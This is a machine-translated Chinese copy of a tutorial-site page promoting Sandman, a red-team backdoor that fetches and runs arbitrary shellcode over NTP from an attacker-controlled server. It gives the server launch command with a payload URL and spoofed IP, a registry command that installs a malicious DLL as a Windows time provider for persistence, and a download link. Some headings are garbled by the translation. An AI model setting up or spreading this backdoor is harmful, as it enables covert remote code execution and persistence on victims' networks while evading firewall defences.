

# Sandman:基于 NTP 的后门，用于强化网络中的红队交战

> 原文：<https://kalilinuxtutorials.com/sandman/>

[](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgP6RIdM3oDUYLqBZZkMcq4DkMge-5zdb7jy3aOOaLl9gCQkD11I2fXnfdvCUuI4mWRAIj188BtZ7YTDD_tIdzOn-cgn9MOWD7hiOYyUwkfXb9vkijOF16T3_kUNsUpr2TyudLzKHz9zGPBbTVmlfu9ZRyk27T3DJSnt03-mqQhkE71Id7o1TDyPOCt/s728/Sandman.png)

Sandman 是一个后门程序，在红队交战期间用于加固网络。

Sandman 作为 stager 工作，利用 NTP(一种同步时间和日期的协议)从预定义的服务器获取并运行任意的**外壳代码**。

因为 NTP 是一种被许多防御者忽视的协议，导致了广泛的网络可访问性。

## 用法

### sandmanswerver _usage)

**在 windows / *nix 机器上运行:**

```
python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"
```

*   **网络适配器:**您希望服务器监听的适配器(例如以太网用于 Windows，eth0 用于*nix)。
*   **有效负载 Url:** 外壳代码的 Url，它可以是您的代理(例如，CobaltStrike 或 meterpreter)或其他 stager。
*   **要欺骗的 IP:**如果要欺骗合法的 IP 地址(例如 time.microsoft.com 的 IP 地址)。

### 散货后门(用途)

首先，您可以将 SandmanBackdoor 编译为下面提到的，因为它是一个单一的轻量级 C#可执行文件，您可以通过 ExecuteAssembly 执行它，作为 NTP 提供程序运行它，或者只是执行/注入它。

### SandmanBackdoorTimeProvider(用法)

要使用它，您需要遵循简单的步骤:

*   **添加以下注册表值:**

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\Path\To\TheDll.dll"
```

*   **重启 w32time 服务:**

```
sc stop w32time
sc start w32time
```

**注意:确保使用 x64 选项而不是任何 CPU 选项进行编译！**

## 功能

*   从攻击者控制的服务器获取并执行任意有效载荷。
*   可以在加固的网络上工作，因为防火墙中通常允许 NTP。
*   通过 IP 欺骗冒充合法的 NTP 服务器。

## 设置

### SandmanServer (Setup)

*   Python 3.9
*   需求在[需求](https://github.com/Idov31/Sandman/blob/master/SandmanServer/requirements.txt)文件中规定。

### 睡魔后门(设置)

为了编译后门，我使用了 Visual Studio 2022，但正如在[用法部分](https://github.com/Idov31/Sandman#usage)中提到的，它可以用 VS2022 和 CSC 编译。您可以使用 USE_SHELLCODE 并使用 Orca 的外壳代码来编译它，也可以不使用 USE_SHELLCODE 来使用 WebClient。

### SandmanBackdoorTimeProvider(设置)

为了编译我用的 Visual Studio 2022 的后门，你还需要安装 [DllExport](https://github.com/3F/DllExport) (通过 Nuget 或者任何其他方式)来编译。您可以使用 USE_SHELLCODE 并使用 Orca 的外壳代码来编译它，也可以不使用 USE_SHELLCODE 来使用 WebClient。

[Click Here To Download](https://github.com/Idov31/Sandman)